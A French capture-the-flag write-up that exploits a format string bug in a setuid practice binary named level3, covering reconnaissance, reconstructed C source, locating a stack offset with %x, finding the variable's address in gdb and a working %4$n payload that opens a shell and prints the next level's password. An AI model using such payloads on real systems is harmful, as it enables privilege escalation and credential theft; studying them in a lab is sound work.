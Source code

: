 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2022(level3) gid=2022(level3) groups=2022(level3),100(users)
/home/user/level3
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level3 :

```bash
$ ./level3
(waiting for input)
$ ./level3
da
da
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=b1a5a447-06b3-402d-a740-453263922d7a) et en extrait une version probable du code :

```c
int m;

void v()
{
    char buffer[512];
    fgets(buffer, 512, stdin);
    printf(buffer); // <------------------------1 format string vulnerability, reads user input but no args is provided, %n lets us rewrite a pointer's value

    if (m == 64) // <---------------------------2 we rewrite the value of m to be 64
    {
        fwrite("Wait what?!\n", 1, 12, stdout);
        system("/bin/sh"); // <-----------------3 we get shell access
    }
}

int main()
{
    v();
}
```

Ici, il semble être question de modifier la valeur de `m` dans le code afin de passer le `if` et ouvrir un shell.

Je note que `fgets()` n'est pas la source de vulnérabilité car c'est une version protégée de `gets()` mais que `printf()`, qui lit notre input et l'imprime, présente une vulnérabilité possible connue sous le nom de [Format String Attack](https://owasp.org/www-community/attacks/Format_string_attack).

Il s'agit ici d'utiliser le flag de conversion `%n` :

```bash
Parameters 	Output 	                                        Passed as
...         ...                                             ...
%n 	        Writes the number of characters into a pointer 	Reference
```

Il me faut donc, dans l'espace qui m'est fourni par le buffer et la limite de `fgets()`, écrire à l'adresse de la variable `m`.

Pour cela, je dois composer un payload infecté composé de :

- l'adresse de la variable `m` dans la fonction `v()`
- 64 caractères à écrire que %n va utiliser pour écrire le pointeur
- puis l'appel à `%n`

Etant donné que nous ne passons aucun argument à `printf`, ce dernier va lire la stack comme argument. Pour trouver "où" se trouve le pointeur de la variable `m` dans la stack pour `printf` lorsque je lui passe l'adresse de `m`, j'utilise l'astuce suivante :

```bash
$ python -c 'print("a %x %x %x %x %x %x")' | ./level3
a 200 b7fd1ac0 b7ff37d0 78252061 20782520 25207825
                               ^

$ python -c 'print("b %x %x %x %x %x %x")' | ./level3
b 200 b7fd1ac0 b7ff37d0 78252062 20782520 25207825
                               ^
```

J'identifie que le 4eime argument dans l'appel de `printf` représente le 'premier' dans la string passé à `printf`.

Cela m'indique que l'appel à `%n` nécessitera un 'shift' de 4 (écrit: `%4$n`) pour signifier que les 64 bytes écrit avant cet appel doivent être stocké dans le "4eime" argument, qui sera en fait l'adresse de la variable 'm', j'illustre ce propos avec le payload suivant :

```python
python -c 'print("\x08\x04\x98\x8c"[::-1] + "\x90" * 60 + "%4$n")'
```

Note: vu que j'écris déjà 4 bytes pour l'adresse de 'm', je n'ai donc que 60 à écrire avant pour atteindre le total de 64 bytes, et ce sera la valeur écrite donc dans le "4eime" (1er dans printf) argument, qui pointe donc sur : `0x0804988c`

Cette adresse est trouvée en utilisant `gdb` :

```h
(gdb) disas v
Dump of assembler code for function v:
...
   0x080484d5 <+49>:    call   0x8048390 <printf@plt> <- on observe le printf
   0x080484da <+54>:    mov    0x804988c,%eax <- met l'adresse de m dans %eax
   0x080484df <+59>:    cmp    $0x40,%eax <- compare %eax a 0x40 -> 64
...
```

J'exécute mon payload :

```bash
$ (python -c 'print("\x08\x04\x98\x8c"[::-1] + "\x90" * 60 + "%4$n")' && echo 'cat /home/user/level4/.pass') | ./level3
�������������������������������������������������������������
Wait what?!
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```